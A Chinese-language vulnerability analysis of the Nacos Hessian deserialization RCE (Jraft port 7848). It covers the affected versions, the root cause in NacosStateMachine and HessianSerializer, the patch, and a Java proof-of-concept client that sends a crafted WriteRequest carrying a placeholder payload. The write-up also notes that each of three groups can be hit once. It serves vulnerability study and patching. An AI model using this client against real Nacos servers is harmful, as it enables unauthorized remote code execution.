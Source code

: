- [Nacos Hessian 反序列化漏洞](#nacos-hessian-反序列化漏洞)
  - [漏洞影响范围](#漏洞影响范围)
  - [环境搭建](#环境搭建)
  - [漏洞原理](#漏洞原理)
    - [Jraft](#jraft)
    - [Hessian](#hessian)
      - [NacosStateMachine](#nacosstatemachine)
  - [漏洞复现](#漏洞复现)
    - [Group](#group)
  - [补丁](#补丁)
  - [参考资料](#参考资料)

# Nacos Hessian 反序列化漏洞
## 漏洞影响范围
* 2.0.0 <= Version <2.2.3  
* 1.4.0 <=Version <1.4.6
## 环境搭建  
https://github.com/alibaba/nacos/releases  
`startup.cmd -m standalone`
## 漏洞原理
官方描述如下:  
```
该版本主要针对部分Jraft请求处理时，使用hessian进行反序列化未限制而造成的RCE漏洞进行修复。

该漏洞仅影响7848端口（默认设置下），一般使用时该端口为Nacos集群间Raft协议的通信端口，不承载客户端请求，因此老版本可以通过禁止该端口来自Nacos集群外的请求达到止血目的（如部署时已进行限制或未暴露，则风险可控）。
```
### Jraft
从漏洞描述可以看到是集群的7848端口在使用jraft协议通信时触发的漏洞,而Jraft协议则是对raft算法的java实现,而raft算法简单来说是用来解决在分布式系统中,如何在多个机器中对同一个值达成一致.
### Hessian  
从commit可以看到是针对`HessianSerializer `添加了白名单,也就是说Nacos集群间使用的jraft协议是基于Hessian进行序列化传递的,而由于没有对反序列化的类做限制,导致可以构造一个恶意的jraft协议数据包在服务器端触发反序列化漏洞.  
#### NacosStateMachine
而Jraft相关的实现类位于`com.alibaba.nacos.core.distributed.raft`中.  

![](2023-07-03-15-13-12.png)  
服务端处理message的地方則是在`NacosStateMachine#onApply`中,可以看到会根据message的雷士是写入还是读取来调用`this.processor`的`onApply`或者`onRequest`方法.  
![](2023-07-03-16-13-11.png)  
而processor的实现类有五种,其中的`onApply`方法都是使用了自身类的`this.serializer.deserialize`对request进行反序列化.   
![](2023-07-03-16-16-28.png)  
![](2023-07-03-16-18-34.png)
而这些实现类中的`serializer`属性对象默认来自SerializeFactory的默认序列化器,也就是`Hessian`.
![](2023-07-03-15-13-53.png)  
![](2023-07-03-15-14-58.png)  
可以看到有些在调用deserialize时第二个参数是传入了一个Class的,还以为是指定了能反序列化的Class,然而从`HessianSerializer`可以看到这个Class其实并没有用上.
![](2023-07-03-15-16-28.png)
## 漏洞复现
原理并不复杂,主要是要根据jraft协议来构造对应协议的请求包,其中还涉及一些grpc的知识,以发送一个WriteRequest请求为例,在HessianSerializer的deserialize()下断点.  
```java
package org.example;
import com.alibaba.nacos.consistency.entity.WriteRequest;
import com.alipay.sofa.jraft.entity.PeerId;
import com.alipay.sofa.jraft.error.RemotingException;
import com.alipay.sofa.jraft.option.CliOptions;
import com.alipay.sofa.jraft.rpc.impl.GrpcClient;
import com.alipay.sofa.jraft.rpc.impl.MarshallerHelper;
import com.alipay.sofa.jraft.rpc.impl.cli.CliClientServiceImpl;
import com.google.protobuf.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Map;
public class Main {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, RemotingException, InterruptedException {
        String address = "127.0.0.1:7848";
        byte[] poc = Base64.getDecoder().decode("HessianSerializer payload");
        CliClientServiceImpl cliClientService = new CliClientServiceImpl();
        cliClientService.init(new CliOptions());
        PeerId leader = PeerId.parsePeer(address);
        WriteRequest request = WriteRequest.newBuilder()
                .setGroup("naming_instance_metadata")
                .setData(ByteString.copyFrom(poc))
                .build();
        GrpcClient grpcClient = (GrpcClient) cliClientService.getRpcClient();
        Field parserClassesField = GrpcClient.class.getDeclaredField("parserClasses");
        parserClassesField.setAccessible(true);
        Map<String, Message> parserClasses = (Map) parserClassesField.get(grpcClient);
        parserClasses.put(WriteRequest.class.getName(),WriteRequest.getDefaultInstance());
        MarshallerHelper.registerRespInstance(WriteRequest.class.getName(),WriteRequest.getDefaultInstance());
        Object res = grpcClient.invokeSync(leader.getEndpoint(), request,5000);
        System.out.println(res);
    }
}
```  
调用栈如下:
![](2023-07-03-16-30-20.png)
### Group
其中根据WriteRequest的setGroup的Group不同,NacosStateMachine的processor也是不同的,同时一个group只能反序列化一次,而一共有三个group,所以该漏洞总共可以打三次.  
分别对应
```
naming_persistent_service_v2 ===> PersistentClientOperationServiceImpl
naming_instance_metadata ===> InstanceMetadataProcessor
naming_service_metadata ===> ServiceMetadataProcessor
```
## 补丁  
补丁也是终于把这个Class用上了,加入了白名单和期望类检测.    
![](2023-07-03-15-22-19.png)  
![](2023-07-03-15-24-32.png)   
https://github.com/alibaba/nacos/pull/10542/commits/3bf5372186c111ad2037f2b2e0261941950c0af4   
https://github.com/alibaba/nacos/pull/10542/commits/68bcbe26fad4e5bebbb1f2785216c1438956c855
## 参考资料
https://y4er.com/posts/nacos-hessian-rce/      
https://l3yx.github.io/2023/06/09/Nacos-Raft-Hessian%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/#more
https://raft.github.io/    
https://www.sofastack.tech/projects/sofa-jraft/overview/  
https://grpc.io/docs/languages/java/basics/